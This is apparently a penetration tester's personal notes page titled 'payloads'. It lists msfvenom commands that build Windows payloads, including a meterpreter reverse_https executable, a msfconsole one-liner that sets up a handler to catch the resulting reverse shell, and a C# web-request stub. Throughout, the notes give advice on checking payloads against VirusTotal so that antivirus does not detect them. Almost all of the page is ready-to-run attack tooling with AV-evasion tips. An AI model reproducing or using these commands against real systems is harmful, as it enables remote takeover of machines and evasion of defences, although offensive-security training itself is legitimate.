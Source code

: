```yaml
---
creation date: November 8th 2023
last modified date: November 8th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[payloads]]  
___

## Description:  

Use virus total to ensure that these payloads wont get caught by AV

Testing with ping:
```
msfvenom -f c -p windows/exec CMD="cmd.exe /C ping 192.168.0.135"

tcpdump icmp -n -i wlan0
```

C# code for a a web request. This is good to test exploits without getting caught by AV. Needs to be compiled with visual studio or another compiler:

```
Raw C# code:

using System;
using System.Net.Http;
using System.Threading.Tasks;
 
class Program
{
    static async Task Main()
    {
        using (HttpClient httpClient = new HttpClient())
        {
            string url = "http://172.16.131.150/test";
            HttpResponseMessage response = await httpClient.GetAsync(url);
        }
    }
}


Run on Kali:
sudo python3 -m http.server 80
```


### Metasploit Reverse Shell

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set LHOST <IP>; set LPORT 443; exploit -j"

sudo msfvenom -p windows/meterpreter_reverse_https LHOST=<IP> LPORT=443 EXITFUNC=thread -f exe > test.exe
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 8th 2023 (10:25 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
